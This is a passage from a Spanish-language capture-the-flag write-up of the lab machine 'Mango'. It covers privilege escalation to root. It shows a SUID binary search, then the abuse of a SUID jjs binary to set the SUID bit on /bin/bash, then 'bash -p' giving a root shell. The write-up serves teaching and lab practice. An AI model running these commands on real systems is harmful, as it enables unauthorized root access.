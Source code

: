 ### Privesc To Root

Ahora trateremos de escalar privilegios, para convertirnos en root. Si listamos los privilegios SUID podemos ver que podemos ejecutar "/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs"

```bash
admin@mango:/home/admin$ find / -user root -perm -4000 -print 2>/dev/null | grep -v "/snap*"
/bin/fusermount
/bin/mount
/bin/umount
/bin/su
/bin/ping
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/run-mailcap
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
/usr/lib/openssh/ssh-keysign
```

Para aprovecharnos de esto podemos ejecutarlo. Entraremos en una consola interactiva de jjs. Podemos ejecutar comandos a nivel de sistema de la siguiente forma.


```bash
jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod +s /bin/bash').waitFor()
0
jjs> 
```

Le hemos dado permisos SUID a la bash, si tratamos de ejecutarla de forma privilegiada, entraremos en un contexto de root.

```bash
-bash-4.4$ bash -p
bash-4.4# id
uid=1000(mango) gid=1000(mango) euid=0(root) egid=0(root) groups=0(root),1000(mango)
bash-4.4#
```

Ya hemos pwneado la máquina! Espero que te haya servido.




